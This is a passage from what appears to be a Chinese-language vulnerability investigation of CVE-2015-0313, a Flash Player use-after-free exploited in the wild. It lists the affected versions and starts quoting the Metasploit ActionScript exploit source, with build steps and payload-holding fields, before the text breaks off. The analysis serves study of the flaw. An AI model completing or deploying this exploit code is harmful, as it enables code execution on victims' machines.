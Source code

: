 ```yaml
---
title: CVE-2015-0313 Investigation
toc: true
categories: Vulnerability Investigation
abbrlink: a62d9a06
date: 2025-05-05 18:53:57
updated: 2025-05-05 18:53:57
---
```


趋势科技公司于 2015 年 2 月曝光了一个 Adobe Flash 0day 被外部恶意利用的信息，访问被该漏洞挂马的网站会自动下载恶意软件或弹出恶意广告等，影响甚广。该 Adobe Flash 0day 被命名为 CVE-2015-0313 Adobe Flash Player Workers ByteArray UAF 漏洞，其漏洞利用能够让攻击者实现任意代码执行

影响范围：

Adobe Flash Player before 13.0.0.269 and 14.x through 16.x before 16.0.0.305 on Windows and OS X and before 11.2.202.442 on Linux

## 漏洞分析

开启 hpa 调试运行 FlashPlayer 并打开样本，程序因触发 Access Violation 异常而崩溃。逆向 AVM 有点折磨所以直接从 [样本](https://github.com/rapid7/metasploit-framework/blob/master/external/source/exploits/CVE-2015-0313/Exploit.as) 源码入手进行分析

```ActionScript
// Build how to:
// 1. Download the AIRSDK, and use its compiler.
// 2. Be support to support 16.0 as target-player (flex-config.xml).
// 3. Download the Flex SDK (4.6)
// 4. Copy the Flex SDK libs (<FLEX_SDK>/framework/libs) to the AIRSDK folder (<AIR_SDK>/framework/libs)
//      (all of them, also, subfolders, specially mx, necessary for the Base64Decoder)
// 5. Build with: mxmlc -o msf.swf Main.as

// Original code by @hdarwin89 // http://hacklab.kr/flash-cve-2015-0313-%EB%B6%84%EC%84%9D/
// Modified to be used from msf
package
{
import flash.display.Sprite
import flash.display.LoaderInfo
import flash.events.Event
import flash.utils.ByteArray
import flash.system.Worker
import flash.system.WorkerDomain
import flash.system.MessageChannel
import flash.system.ApplicationDomain
import avm2.intrinsics.memory.casi32
import mx.utils.Base64Decoder

public class Exploit extends Sprite
{
    private var ov:Vector.<Object> = new Vector.<Object>(80000)
    private var uv:Vector.<uint>
    private var ba:ByteArray = new ByteArray()
    private var worker:Worker
    private var mc:MessageChannel
    private var b64:Base64Decoder = new Base64Decoder()
    private var payload:ByteArray
    private var platform:String
    private var os:String
    private var exploiter:Exploiter

    public function Exploit()
    {
        if (Worker.current.isPrimordial) mainThread() //* 在构造函数中判断是否为主线程并分别执行对应函数
```